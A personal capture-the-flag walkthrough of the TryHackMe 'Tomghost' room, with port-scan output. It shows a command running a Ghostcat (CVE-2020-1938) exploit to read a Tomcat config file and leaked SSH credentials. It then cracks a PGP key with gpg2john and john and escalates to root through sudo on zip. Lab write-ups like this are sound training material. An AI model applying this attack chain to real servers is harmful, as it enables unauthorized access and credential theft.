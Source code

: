 # Enumeration 

8080/tcp open  http       syn-ack Apache Tomcat 9.0.30                                                                        
|_http-favicon: Apache Tomcat                                                                                                 
| http-methods:                                                                                                               
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                  
|_http-title: Apache Tomcat/9.0.30                                                                                            
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel 
53/tcp   open  tcpwrapped syn-ack                                                                                             
8009/tcp open  ajp13      syn-ack Apache Jserv (Protocol v1.3) 
22/tcp   open  ssh        syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

## port 8080

Normal tomcat server

## Port 53 
Nothing much

# Exploitation 





## port 8009
is jserv 
doing some research found a vulnerability called ghostcat that allows unathunticated users to read server files  and server version looks vulnerable 
[CVE-2020-1938 Repo](https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat/blob/main/CVE-2020-1938.md)

```bash
python CVE-2020-1938.py $ip -p 8009 -f WEB-INF/web.xml
```
![[Pasted image 20230105193959.png]]

skyfuck:8730281lkjlkjdqlksalks ssh creds valid



# Privesc 

found .asc and .pgp files 
trying to decrypt .pgp file using asc key

```
gpg --import tryhackme.asc
gpg --decrypt credintial.pgp
```
password protected running gpg2john to decrypt it

```
gpg2john tryhackme.asc > hash
john hash --wordlist=/usr/share/wordlist/rockyou.txt
```

![[Pasted image 20230105195234.png]]

![[Pasted image 20230105195245.png]]

merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j

running sudo -l 

![[Pasted image 20230105195354.png]]
![[Pasted image 20230105195455.png]]
[gtfobins](https://gtfobins.github.io/gtfobins/zip/)

![[Pasted image 20230105195442.png]]
# Conclusion

- Server was vulnerable to ghostcat which lead to information disclosure and found ssh creds
- other users creds unsecured and lead to compromising merlin user
- user having sudo perm on zip which lead to root

---
Tags: #CVE-2020-1938 #tomcat #gtfobins #sudo_privesc 
Resources: [Tomghost](https://tryhackme.com/room/tomghost) 